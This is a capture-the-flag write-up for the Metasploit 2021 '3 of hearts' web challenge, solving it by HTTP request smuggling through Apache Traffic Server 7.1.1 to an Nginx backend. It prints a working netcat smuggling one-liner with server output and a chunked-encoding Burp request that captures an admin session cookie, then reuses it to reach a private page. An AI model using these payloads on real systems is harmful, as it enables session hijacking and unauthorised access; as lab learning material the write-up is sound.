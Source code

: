 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | 3 of hearts Writeup
desc: Check out our writeup for 3 of hearts for Metasploit 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: 3_of_hearts
challenge: 3 of hearts
tags: "web, starry, http request smuggling"
date: 2021-12-08T00:00:00+00:00
last_modified_at: 2021-12-08T00:00:00+00:00
---
```



> Solved too late by : Starry-lord

```
Port 33337
```

I solved this one after the competition but still felt compelled to share the process.

This one gave me a hard time, firstly because I hadn't seen HTTP request smuggling scenarios before. 

Trying to connect to the target IP:33337 redirects to a domain name 

```
threeofhearts.ctf.net
```

And displays an empty page with only the following content:

```
<script>console.log(zp2)</script>
```

Some snooping showed me the initial request was made to an Apache traffic server 7.1.1 and the second one to an Nginx server 1.15.5. 
After a few research I realized there wasn't much resource on the subject, but here's what I found :

- PortSwigger Web academy
- https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f 
- https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/

Sadly no time for going through academy through the ctf but will definitely look into it in a nearby future. 

I used 2 ways to try and see what was going on :

### Way n°1 - CLI

```
printf 'GET_/somthingthatdoesntexist_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
```

So here we manage to get double request by adding 65534 empty spaces between 2 get requests. 

First one results in a 400 error and second request goes through and shows the content of the internal website. 

```
┌──(kali㉿kali)-[~/.starlord]
└─$ printf 'GET_/somethingNotThere_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/out/save.txt_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
HTTP/1.1 400 Invalid HTTP Request
Date: Sun, 05 Dec 2021 23:34:29 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request. 
</B></FONT>
<HR>
</BODY>
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Sun, 05 Dec 2021 23:34:29 GMT
Content-Type: text/plain
Content-Length: 151
Last-Modified: Sun, 05 Dec 2021 23:08:15 GMT
ETag: "61ad465f-97"
X-Requested: /out/save.txt
Accept-Ranges: bytes
Age: 0
Connection: keep-alive

Params:
Headers:
        X-Access: 
        Cookie: 

Params:
        cache=0
Headers:
        X-Access: 
        Cookie: 

Params:
        var1=star
        var2=lord
Headers:
        X-Access: 
        Cookie: 

                                                                                
┌──(kali㉿kali)-[~/.starlord]
└─$ 
```

### WAY n°2 - BurpSuite

It also worked with just a 0 in between GET requests and would be easier to input to burpsuite. 

The website's content would only show itself in a browser if the request was intercepted and its “Host” header manually set to threeofhearts.ctf.net

From there I found a small page with a PHP form for var1 and var2. By pressing submit, a GET request would be sent to /save.php and populate an entry in the above queried file (/out/save.txt).

There was a /private.php we were denied access to, where the flag was clearly hidden. This is the point where I had most trouble trouble realizing what was going on. 

I knew we had to craft or find the right cookie to access the private.php but didn't understand the fundamental of the HTTP request smuggling attack.

Turns out when you manage to split the request successfully, the second one will be sent from the server, which means admin headers in /out/save.txt in this case.

This was the burp request :

```
GET / HTTP/1.1
Host: threeofhearts.ctf
Transfer-Encoding: chunked
Content-Length:53

0

GET /save.php?var1=something&var2=something HTTP/1.1
```

Then making a request to /out/save.txt showed the following :

```
Headers:
  X-Access: private
  Cookie: PHPSESSID=theAdminPhpSessionId
  
Params:
  var1=something
  var2=something
Headers:
  X-Access:
  Cookie:
```

visiting /private.php with those header gave the un-guessable page link for the flag.

![](https://i.imgur.com/VPSwASa.png)